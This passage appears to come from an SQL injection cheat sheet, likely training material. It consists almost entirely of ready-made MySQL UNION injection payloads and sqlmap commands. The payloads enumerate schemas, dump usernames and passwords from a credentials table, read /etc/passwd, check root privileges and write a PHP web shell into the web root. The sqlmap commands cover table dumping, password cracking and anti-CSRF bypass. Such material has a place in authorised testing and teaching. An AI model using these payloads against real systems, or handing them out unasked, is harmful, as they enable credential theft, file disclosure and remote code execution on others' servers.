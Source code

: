 | `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

## SQLmap

| **Command**                                                  | **Description**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |